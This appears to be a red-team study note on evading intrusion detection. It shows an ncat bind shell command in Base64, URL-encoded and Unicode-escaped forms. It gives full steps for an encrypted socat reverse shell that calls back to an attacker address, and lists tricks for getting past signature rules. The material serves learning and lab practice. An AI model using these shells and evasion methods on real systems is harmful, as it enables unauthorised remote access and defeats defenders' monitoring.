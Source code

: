 # Evasion via payload manipulation

Evasion via payload manipulation includes:

* Obfuscating and encoding the payload.
* Encrypting the communication channel.
* Modifying the shellcode.

## Obfuscating and encoding the payload

Because IDS rules are very specific, minor changes to avoid detection can work. The changes include adding extra bytes, 
obfuscating the attack data, and encrypting the communication.

Consider the command `ncat -lvnp 1234 -e /bin/bash`, where `ncat` will listen on TCP port `1234` and connect any 
incoming connection to the Bash shell. There are a few common transformations such as Base64, URL encoding, and 
Unicode escape sequence that can be applied to the command to avoid triggering IDS/IPS signatures.

Encode to a Base64 format:

```text
$ cat input.txt
ncat -lvnp 1234 -e /bin/bash
$ base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
```

URL encoding:

```text
$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

## Escaped Unicode

Some applications will still process input and execute it properly if escaped Unicode is used. There are multiple 
ways to use escaped Unicode depending on the system processing the input string. For example, 
[CyberChef](https://icyberchef.com/)  can be used to select and configure the Escape Unicode Characters.

1. Search for Escape Unicode Characters
2. Drag it to the Recipe column
3. Check-mark Encode all chars with a prefix of `\u`
4. Make sure there is a check-mark near Uppercase hex with a padding of 4

| ![Cyberchef](/_static/images/cyberchef-netsec.png) |
|:--:|
| Clearly a drastic transformation that would help evade detection, assuming the target system will <br>interpret it correctly and execute it. |

Using the format `\uXXXX`, `ncat -lvnp 1234 -e /bin/bash` becomes: 

    \u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068 

## Encrypting the communication channel

Because an IDS/IPS will not inspect encrypted data, an attacker can take advantage of encryption to evade detection. 
Unlike encoding, encryption requires an encryption key and decrypting on the other side.

One direct approach is to create the necessary encryption key on the attacker’s system and set socat to use the 
encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be 
carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

Create key using `openssl`:

    $ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
    $ ls
    thm-reverse.crt  thm-reverse.key

* `req` indicates that this is a certificate signing request (not submitting it for signing).
* `-x509` specifies an X.509 certificate
* `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 
bits.
* `-days` validity in days
* `-subj` sets data, such as organisation and country, via the command-line.
* `-nodes` simplifies the command and does not encrypt the private key
* `-keyout` PRIVATE_KEY specifies the filename to save the private key to
* `-out` CERTIFICATE specifies the filename to which to write the certificate request

The command returns a private key `thm-reverse.key` and a certificate `thm-reverse.crt`.

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate 
`.crt` files:

    cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

With the PEM file ready, start listening while using the key for encrypting the communication with the client:

    socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

On the target system, connect back:

    socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash

## Modifying the shellcode

Consider the simple case of using Ncat to create a bind shell. The command `ncat -lvnp 1234 -e /bin/bash` tells 
ncat to listen on TCP port 1234 and bind Bash shell to it. To detect packets containing such commands, think of 
something specific to match the signature but not too specific. So will attackers:

* Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
* On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as 
`ncat  -` which would still run correctly on the target system.
* If the IDS is looking for `ncat`, then simple changes to the original command are unlikely to evade detection. 
Consider more sophisticated approaches depending on the target system/application. One option would be to use a 
different command such as nc or socat. Alternatively, consider a different encoding if the target system can 
process it properly.

## Resources

* [section 2.4 in RFC 3986 (URL encoding: When to Encode or Decode)](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4)

